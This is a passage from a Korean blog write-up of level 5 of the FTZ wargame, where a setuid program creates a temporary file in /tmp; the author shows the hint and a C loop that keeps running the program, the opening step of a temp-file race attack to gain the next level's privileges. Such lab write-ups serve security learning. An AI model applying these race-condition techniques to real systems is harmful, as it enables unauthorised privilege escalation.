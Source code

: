 ```yaml
---
title: FTZ 5번 Write-up
date: 2017-8-21 15:27:00
categories: FTZ
---
```


## FTZ 5번

이건 딱봐도 풀기 싫게 생겼다.

    [level5@ftz level5]$ ls
    hint  public_html  tmp
    [level5@ftz level5]$ cat hint
    
    /usr/bin/level5 프로그램은 /tmp 디렉토리에
    level5.tmp 라는 이름의 임시파일을 생성한다.
    
    이를 이용하여 level6의 권한을 얻어라.

그렇지 않은가

`/usr/bin/level5`의 프로그램은 실행중일때만 `level5.tmp`라는 임시파일을 생성하고, 종료될경우, 임시파일은 바로 삭제된다.

    [level5@ftz level5]$ cd /tmp
    [level5@ftz tmp]$ ls
    mysql.sock
    [level5@ftz tmp]$ vi script.c
    int main(){
            while(1){
                    system("/usr/bin/level5");
            }
           return 0;
    }
    [level5@ftz tmp]$ gcc -o script script.c

이렇게 `/usr/bin/level5`를 계속 실행하도록 하는 프로그램을 제작했다.